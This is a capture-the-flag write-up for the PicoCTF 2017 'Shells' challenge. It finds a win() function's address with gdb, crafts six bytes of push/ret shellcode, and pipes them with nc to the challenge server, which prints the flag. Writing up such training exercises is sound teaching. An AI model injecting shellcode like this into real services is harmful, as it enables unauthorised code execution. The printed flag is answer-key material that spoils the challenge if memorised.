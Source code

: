 # PicoCTF 2017- Level 2 - Binary Exploitation 2

**Title:** Shells  
**Category:** Binary Exploitation  
**Points:** 70  
**Description:**

>How much can a couple bytes do? Use [shells](shells)! [Source](shells.c). Connect on shell2017.picoctf.com:17533.  

**Hint:**

>Read about basic shellcode  
>You don't need a full shell (yet...), just enough to get the flag  

## Solution

This problem is more complex than the previous one. By openning the source file we see that we can only submit 10 bytes of data, which is not enough to contain a shell.  
But, looking at the source we can also see the function:
```C
void win(){  
    system("/bin/cat ./flag.txt");  
}  
```

So our job here is to create code to call the function `win()` that will give us the flag. First, let's start gdb:
    $ gdb  
    (gdb) file ./shells  

Now that our programs is loaded in gdb, let's find the address of the `win()` function:

    (gdb) info functions  
    All defined functions:  
      
    Non-debugging symbols:  
    0x08048378  _init  
    0x080483b0  read@plt  
    0x080483c0  printf@plt  
    0x080483d0  fflush@plt  
    0x080483e0  puts@plt  
    0x080483f0  system@plt  
    0x08048400  __gmon_start__@plt  
    0x08048410  exit@plt  
    0x08048420  mmap@plt  
    0x08048430  __libc_start_main@plt  
    0x08048440  _start  
    0x08048470  __x86.get_pc_thunk.bx  
    0x08048480  deregister_tm_clones  
    0x080484b0  register_tm_clones  
    0x080484f0  __do_global_dtors_aux  
    0x08048510  frame_dummy  
    0x08048540  win  
    0x08048560  vuln  
    0x08048610  main  
    0x08048670  __libc_csu_init  
    [...]  

We can see that the win function is at the address `0x08048540`. So our shell code will look like this:  
    \x68               |  push  
    \x40\x85\x04\x08   |  win()  
    \xc3               |  ret  

Now let's create the shellcode:  
    $ python -c "print('\x68\x40\x85\x04\x08\xc3')" > shellcode  
    $ cat shellcode - | nc shell2017.picoctf.com 17533  
    My mother told me to never accept things from strangers  
    How bad could running a couple bytes be though?  
    Give me 10 bytes:  
    4350d27b024f8597f10b98f164f0fc43  

Thus the flag for this one is `4350d27b024f8597f10b98f164f0fc43`